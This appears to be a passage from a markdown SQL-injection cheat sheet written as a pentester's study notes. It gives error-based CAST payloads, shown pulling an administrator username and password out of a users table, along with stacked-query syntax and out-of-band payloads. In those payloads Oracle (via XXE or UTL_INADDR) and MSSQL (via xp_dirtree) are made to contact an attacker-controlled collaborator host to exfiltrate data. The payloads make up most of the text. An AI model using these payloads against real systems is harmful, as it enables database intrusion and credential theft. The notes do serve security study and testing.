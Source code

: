 ```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
1 = SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
```

Some time servers also disclose verbose errors about the query, allowing to retrieve internal data:
```sql
CAST((SELECT example_column FROM example_table) AS int) -- # ERROR: invalid input syntax for type integer: "Example data"

# Example
TrackingId='ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)-- # Error: `AND` condition must be a boolean expression.
TrackingId='ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)-- # OK
TrackingId='' AND 1=CAST((SELECT username FROM users) AS int)-- # Error: more then one row
TrackingId='' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- # ERROR: invalid input syntax for type integer: "administrator"
TrackingId='' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- # ERROR: invalid input syntax for type integer: "txp8n9ngydm953sli8k2"
```

---

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```sql
# Oracle 	
Does not support batched queries.

# Microsoft
QUERY-1-HERE; QUERY-2-HERE

# PostgreSQL
QUERY-1-HERE; QUERY-2-HERE

#MySQL
QUERY-1-HERE; QUERY-2-HERE
```

### OAST techniques for blind SQL injections

Sometimes queries are executed asynchronously, so the application continues processing user requests and queries using different threads. In this case, all the other techniques previously shown are not effective because there is no connection between the query and the server response. In order to detect these vulnerabilities, we can combine stacked queries and OAST techniques, forcing the backend connects to our DNS server and thus exfiltrate data in this way.

```sql
# Oracle
## The following technique leverages an XXE vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
  
## The following technique works on fully patched Oracle installations, but requires elevated privileges:  
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

# MSSQL
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'

# PostreSQL
```

[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec